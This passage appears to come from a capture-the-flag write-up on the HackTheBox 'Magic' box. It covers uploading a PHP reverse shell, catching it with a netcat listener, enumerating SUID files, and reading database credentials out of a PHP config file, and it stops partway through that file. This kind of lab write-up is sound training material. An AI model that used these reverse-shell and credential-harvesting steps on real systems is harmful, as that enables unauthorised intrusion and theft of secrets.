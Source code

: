 There's no netcat. I uploaded php reverse shell under `/images` because `/uploads` seems to be cleaning images periodically. Then I manage to get reverse shell.

```bash
ghost@localhost [00:30:41] [~/Documents/hacking/tj-null-boxes/magic] [master *]
-> % nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.185] 37984
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:30:48 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```


# User

First I looked for SUID files. (ignored `snap`)

```bash
$ find / -perm /4000 -type f 2>/dev/null
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/arping
...
/bin/umount
/bin/fusermount
/bin/sysinfo
/bin/mount
/bin/su
/bin/ping
```

From `/var/www/Magic/db.php5` I got database credentials. `theseus:iamkingtheseus` for the database `Magic`.
`
```bash
www-data@ubuntu:/var/www/Magic$ cat db.php5
cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
        // One connection through whole application
```